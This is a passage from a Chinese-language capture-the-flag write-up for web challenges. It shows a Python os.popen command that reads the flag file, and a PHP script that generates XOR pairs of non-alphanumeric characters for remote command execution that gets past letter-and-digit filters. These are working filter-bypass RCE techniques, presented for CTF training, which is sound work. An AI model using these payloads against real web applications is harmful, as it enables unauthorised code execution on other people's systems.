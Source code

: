 得到flag

```
import os
os.popen('cat /f*').read();
```

![image-20241201201555230](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202412012015293.png)

## **无字母数字命令执行**

### web802

https://blog.csdn.net/miuzzx/article/details/109143413

用这套无字母数字rce脚本

```php
<?php

/*author yu22x*/

$myfile = fopen("xor_rce.txt", "w");
$contents="";
for ($i=0; $i < 256; $i++) {
    for ($j=0; $j <256 ; $j++) {

        if($i<16){
            $hex_i='0'.dechex($i);
        }
        else{
            $hex_i=dechex($i);
        }
        if($j<16){
            $hex_j='0'.dechex($j);
        }
        else{
            $hex_j=dechex($j);
        }
        $preg = '/[a-z]|[0-9]/i'; //根据题目给的正则表达式修改即可
        if(preg_match($preg , hex2bin($hex_i))||preg_match($preg , hex2bin($hex_j))){
            echo "";
        }

        else{
            $a='%'.$hex_i;
            $b='%'.$hex_j;
            $c=(urldecode($a)^urldecode($b));
            if (ord($c)>=32&ord($c)<=126) {
                $contents=$contents.$c." ".$a." ".$b."\n";
            }
        }

    }
}
fwrite($myfile,$contents);
fclose($myfile);


```

